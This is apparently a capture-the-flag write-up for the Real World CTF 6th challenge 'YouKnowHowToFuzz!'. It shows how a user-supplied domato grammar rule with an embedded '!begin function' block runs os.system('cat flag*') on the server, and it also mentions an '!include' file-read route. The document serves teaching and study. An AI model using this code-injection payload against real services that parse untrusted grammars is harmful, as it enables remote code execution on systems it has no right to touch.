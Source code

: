 ```yaml
---
title: 'Real World CTF 6th'
challenge: 'YouKnowHowToFuzz!'
date: 2024-01-28T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the Real World CTF 6th challenge "YouKnowHowToFuzz!"' 
cover: '/img/RealWorldCTF_6th/logo.png'
tags: ['misc']
draft: false
---
```


```
I like eat domato, it's excellent for dom fuzz, try to use your rule!

nc 47.251.60.74 9999
```

### Quick look

The challenge attachment includes a Dockerfile that builds a container containing the DOM fuzzer [domato](https://github.com/googleprojectzero/domato)

```Dockerfile
FROM ubuntu:22.04 AS base

RUN apt-get clean && \
    apt-get update && \
    apt-get install -qy git && \
    git clone https://github.com/googleprojectzero/domato /domato

# [...]
```

Then, the container was configured to execute the following script:

```python
#!/usr/local/bin/python3
from grammar import Grammar

print("define your own rule >> ")
your_rule = ""
while True:
    line = input()
    if line == "<EOF>":
        break
    your_rule += line + "\n"

rwctf_grammar = Grammar()
err = rwctf_grammar.parse_from_string(your_rule)

if err > 0:
    print("Grammer Parse Error")
    exit(-1)

rwctf_result = rwctf_grammar._generate_code(10)
with open("/domato/rwctf/template.html", "r") as f:
    template = f.read()

rwctf_result = template.replace("<rwctf>", rwctf_result)

print("your result >> ")
print(rwctf_result)
```

One detail catch my attention in the Dockerfile:

```Dockerfile
# [...]

COPY flag /flag

RUN mkdir /srv/app && \
    mv /flag /srv/app/flag_$(md5sum /flag | awk '{print $1}')

```

This implies that the flag is initially copied to the `/` directory and then renamed with an unpredictable name. Does this suggest that **Remote Code Execution** (*RCE*) is required?

### Vulnerability

Based on the challenge description and the provided code, it became evident that we needed to craft a valid rule in **domato**. My strategy was to refer to the fuzzer's documentation. There, I discovered two approach:

- Use `!include`: This expression allows the reading of arbitrary files and is triggered by the verbose error `Error parsing line: {line of the file}`.
- Use `!begin function`: This expression enables the inclusion of Python code but requires a valid rule.

Leveraging the documentation examples, I successfully created a valid rule. It's worth noting that the **Local File Inclusion** (*LFI*) approach proved futile as we lacked information about the flag's name, which was intentionally made unguessable.

```
!begin function pwn
  import os
  os.system("cat flag*")
  ret_val = "pwned"
!end function

!begin lines
<new naslab> = <call function=pwn>
!end lines
```

The result of the **system** function call will be printed to **stdout**, and we will obtain the flag.

> rwctf{it_is_a_boring_chall_about_domato_rce_20240126rwctf}
